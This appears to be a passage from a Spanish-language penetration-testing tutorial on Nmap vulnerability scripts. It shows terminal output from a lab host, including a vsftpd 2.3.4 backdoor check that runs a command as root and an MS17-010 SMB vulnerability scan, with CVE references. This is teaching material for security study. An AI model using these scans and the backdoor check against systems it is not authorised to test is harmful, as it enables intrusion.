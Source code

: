 	|     IDs:  CVE:CVE-2011-2523  BID:48539
	|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
	|     Disclosure date: 2011-07-03
	|     Exploit results:
	|       Shell command: id
	|       Results: uid=0(root) gid=0(root)
	|     References:
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
	|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
	|       https://www.securityfocus.com/bid/48539
	|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
	Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds

smb-vuln-ms17-010: nos permite comprobar si el servicio SMB de la víctima es vulnerable a este exploit
Ejemplo:

	─[xc0d3@cs-academy]─[~]
	└──╼ [★]$ nmap -p445 --script=smb-vuln-ms17-010 192.168.56.103
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-21 10:22 EST
	Nmap scan report for 192.168.56.103
	Host is up (0.00073s latency).
	PORT    STATE SERVICE
	445/tcp open  microsoft-ds
	Host script results:
	| smb-vuln-ms17-010: 
	|   VULNERABLE:
	|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
	|     State: VULNERABLE
	|     IDs:  CVE:CVE-2017-0143
	|     Risk factor: HIGH
	|       A critical remote code execution vulnerability exists in Microsoft SMBv1
	|        servers (ms17-010).
	|           
	|     Disclosure date: 2017-03-14
	|     References:
	|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
	|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
	Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds

